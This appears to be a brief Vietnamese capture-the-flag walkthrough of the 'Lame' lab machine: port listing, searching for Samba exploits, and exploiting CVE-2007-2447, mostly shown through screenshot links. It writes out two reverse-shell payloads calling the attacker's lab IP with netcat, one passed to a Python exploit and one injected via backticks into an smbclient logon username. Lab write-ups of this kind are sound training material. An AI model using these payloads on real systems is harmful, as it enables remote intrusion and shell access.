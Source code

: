 # lame

liệt kê các port mở

![https://lh7-us.googleusercontent.com/6xYvs0Mehr3MgOIRZtIQLFdS4Zh2bR0MZxYHt4bHi-WPI8Y-9FGKZcutPBL4R8ekkfkpAY_BcLFNas05oy9dfTvZTA1PBZjGgL4c1wLV48pCDIPqvEoPNW1xjNFObAL_Nawzr61c2SNW](https://lh7-us.googleusercontent.com/6xYvs0Mehr3MgOIRZtIQLFdS4Zh2bR0MZxYHt4bHi-WPI8Y-9FGKZcutPBL4R8ekkfkpAY_BcLFNas05oy9dfTvZTA1PBZjGgL4c1wLV48pCDIPqvEoPNW1xjNFObAL_Nawzr61c2SNW)

![https://lh7-us.googleusercontent.com/qMFHnkVNQ73-G6NfGs2YcnUvfm1RmqzWyQUT041ZaA_J36w7uq6T5G6464JJYIOaI23AwHfTPZvBjvqxVfShZ832nTwW_oHgvKT9UbYSrTcbsxwUXzwR6nTnL9EvQs2NqvJ2tG0C45vp](https://lh7-us.googleusercontent.com/qMFHnkVNQ73-G6NfGs2YcnUvfm1RmqzWyQUT041ZaA_J36w7uq6T5G6464JJYIOaI23AwHfTPZvBjvqxVfShZ832nTwW_oHgvKT9UbYSrTcbsxwUXzwR6nTnL9EvQs2NqvJ2tG0C45vp)

tìm kiếm exploit cho phiên bản ftp,samba

- exploit qua samba

searchsploit samba

![https://lh7-us.googleusercontent.com/4JTjWpWMhAmIdD2w-U2zjKHfK98zCdMk2c2fJXzu1FEzZdeJtBDRNT87MRhOS4ylZGGIIZ9cWUoi6tQbnibN5ooSCCmGPS17Wn6_U4wJJ3-VzRmrve-g9tu5Jw3JB1XyzwXVytzl1wcG](https://lh7-us.googleusercontent.com/4JTjWpWMhAmIdD2w-U2zjKHfK98zCdMk2c2fJXzu1FEzZdeJtBDRNT87MRhOS4ylZGGIIZ9cWUoi6tQbnibN5ooSCCmGPS17Wn6_U4wJJ3-VzRmrve-g9tu5Jw3JB1XyzwXVytzl1wcG)

tìm kiếm unix/remote/16320.rb -> tìm thấy exploit trên exploit-db

phân tích exploit thấy CVE-2007-2447

thay vì dùng metasploit -> tìm kiếm exploit cho CVE-2007-2447

[CVE-2007-2447-in-Python/README.md at master · Ziemni/CVE-2007-2447-in-Python (github.com)](https://github.com/Ziemni/CVE-2007-2447-in-Python/blob/master/README.md)

python3 smbExploit.py 10.10.10.3 139 'nc -e /bin/bash 10.10.16.7 1234'

![https://lh7-us.googleusercontent.com/nD-eVECJKI3VxiJG03KByTazlcnxia6cEkH3PcicbtGI-PRWXH7YjOarprxOqZ-5csa2jme_OPeuNdhT_2KWaakcVVS-BbBI4sPhlK6D8pepIMYs7RtMaOfKU7r2zkTLqAtI31IXksp7](https://lh7-us.googleusercontent.com/nD-eVECJKI3VxiJG03KByTazlcnxia6cEkH3PcicbtGI-PRWXH7YjOarprxOqZ-5csa2jme_OPeuNdhT_2KWaakcVVS-BbBI4sPhlK6D8pepIMYs7RtMaOfKU7r2zkTLqAtI31IXksp7)

upgrade shell

![https://lh7-us.googleusercontent.com/JkK408ENhwo9n4blY-sg82ibiBE4rqpBTZDjE8oRYWtXMXz4ABY3m1vgfcVolbHgTDZwIhSuLZnirlTxj1IqKo-zERULuRrCFYepiOCqthFwApymSCRJZfzEf2wRr1SeUrImclUqU-YM](https://lh7-us.googleusercontent.com/JkK408ENhwo9n4blY-sg82ibiBE4rqpBTZDjE8oRYWtXMXz4ABY3m1vgfcVolbHgTDZwIhSuLZnirlTxj1IqKo-zERULuRrCFYepiOCqthFwApymSCRJZfzEf2wRr1SeUrImclUqU-YM)

kiểm tra user

![https://lh7-us.googleusercontent.com/MHkESiZR7Fog3SqkfH0rpM7R1Qs800uX19HFTjHIP31xN07fr0Z96UvGphMXU7aBhSFenjZ-M6yvO0HSd102BOhducrxfxjd8y_ukpGR08kiDRXUFqWIXTnALRoSeoyBrLwfNisZ5KaN](https://lh7-us.googleusercontent.com/MHkESiZR7Fog3SqkfH0rpM7R1Qs800uX19HFTjHIP31xN07fr0Z96UvGphMXU7aBhSFenjZ-M6yvO0HSd102BOhducrxfxjd8y_ukpGR08kiDRXUFqWIXTnALRoSeoyBrLwfNisZ5KaN)

![https://lh7-us.googleusercontent.com/Au9W01Goy11MlUg5SRRkxKnLVW05TIp1OzbeSeYVnavwaTmyvT9xihsQmBAO3DEphW5zMF-xINQoFu7AFMqb6BNptdk-LKEkL6WNb6MmTV383K3CcGRh9aXCD0srMcceWlNIzLCnjk2V](https://lh7-us.googleusercontent.com/Au9W01Goy11MlUg5SRRkxKnLVW05TIp1OzbeSeYVnavwaTmyvT9xihsQmBAO3DEphW5zMF-xINQoFu7AFMqb6BNptdk-LKEkL6WNb6MmTV383K3CcGRh9aXCD0srMcceWlNIzLCnjk2V)

![https://lh7-us.googleusercontent.com/3xvZvzNomksvCpBdJuUzLSzjd9mYl6zkF_aZKERIB2_By3GYqL4fVidTL2dbsW-33oN5ycbfbKmEBhhFvt5emF-k_N7Nz2AE8sjP34JfLzHvnepRXoIV6fNth6P85KfhOOI17KOssMBl](https://lh7-us.googleusercontent.com/3xvZvzNomksvCpBdJuUzLSzjd9mYl6zkF_aZKERIB2_By3GYqL4fVidTL2dbsW-33oN5ycbfbKmEBhhFvt5emF-k_N7Nz2AE8sjP34JfLzHvnepRXoIV6fNth6P85KfhOOI17KOssMBl)

- exploit qua ftp

smbmap kiểm tra các thư mục share:

![https://lh7-us.googleusercontent.com/xCVI3vF45MDs8TmJq30E4Xpt8UKBjnHHDZwdixejZWJHu9I2Log3FSuagIIkTbb931tmzd44iHo-TvrpQjVJJghBn9O79A7GRuKFBtNXtios5PNvNJO5AEucYuabs1bHouU8FVfNHE47](https://lh7-us.googleusercontent.com/xCVI3vF45MDs8TmJq30E4Xpt8UKBjnHHDZwdixejZWJHu9I2Log3FSuagIIkTbb931tmzd44iHo-TvrpQjVJJghBn9O79A7GRuKFBtNXtios5PNvNJO5AEucYuabs1bHouU8FVfNHE47)

dùng smbclient connect /tmp và login với payload

logon "/=`nohup nc -nv 10.10.16.7 4444 -e /bin/sh`"

![https://lh7-us.googleusercontent.com/UA51MkV3vKF6YHPiKd9BwU2_L6LoCcKiu0CQfScMbKnVm70EjPSz5cMiuqp82eltaYpMTgqmxEBKMAsnY6nPXWITGEpf4Vsds81WqwJW8026st9oqmkm6E_SOC-eyBT3hapJv-YNTGsL](https://lh7-us.googleusercontent.com/UA51MkV3vKF6YHPiKd9BwU2_L6LoCcKiu0CQfScMbKnVm70EjPSz5cMiuqp82eltaYpMTgqmxEBKMAsnY6nPXWITGEpf4Vsds81WqwJW8026st9oqmkm6E_SOC-eyBT3hapJv-YNTGsL)

passwd cả 2 đều enter